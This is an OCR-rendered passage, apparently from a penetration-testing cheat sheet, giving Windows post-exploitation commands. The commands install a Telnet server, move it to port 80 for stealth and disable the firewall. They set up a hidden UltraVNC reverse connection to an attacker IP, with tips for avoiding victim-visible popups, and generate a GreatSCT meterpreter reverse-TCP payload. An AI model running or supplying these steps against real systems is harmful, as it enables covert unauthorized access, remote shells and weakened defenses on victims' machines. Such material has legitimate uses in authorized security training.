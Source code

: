 ```

```bash
pkgmgr /iu:"TelnetServer" /quiet
```
```
Make it **start** when the system is started and **run** it now:

```bash
sc config TlntSVR start= auto obj= localsystem
```
```
**Change telnet port** (stealth) and disable firewall:

```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```
```
### UltraVNC

Download it from: [[http://www.uvnc.com/downloads/ultravnc.html) (you want the bin downloads, not the setup|http://www.uvnc.com/downloads/ultravnc.html]]

**ON THE HOST**: Execute _**winvnc.exe**_ and configure the server:

- Enable the option _Disable TrayIcon_
- Set a password in _VNC Password_
- Set a password in _View-Only Password_

Then, move the binary _**winvnc.exe**_ and **newly** created file _**UltraVNC.ini**_ inside the **victim**

#### **Reverse connection**

The **attacker** should **execute inside** his **host** the binary `vncviewer.exe -listen 5900` so it will be **prepared** to catch a reverse **VNC connection**. Then, inside the **victim**: Start the winvnc daemon `winvnc.exe -run` and run `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900`

**WARNING:** To maintain stealth you must not do a few things

- Don't start `winvnc` if it's already running or you'll trigger a [[https://i.imgur.com/1SROTTl.png|popup]]. check if it's running with `tasklist | findstr winvnc`
- Don't start `winvnc` without `UltraVNC.ini` in the same directory or it will cause [[https://i.imgur.com/rfMQWcf.png|the config window]] to open
- Don't run `winvnc -h` for help or you'll trigger a [[https://i.imgur.com/oc18wcu.png|popup]]

### GreatSCT

Download it from: [[https://github.com/GreatSCT/GreatSCT|https://github.com/GreatSCT/GreatSCT]]

```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```
```
Inside GreatSCT:

```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```
```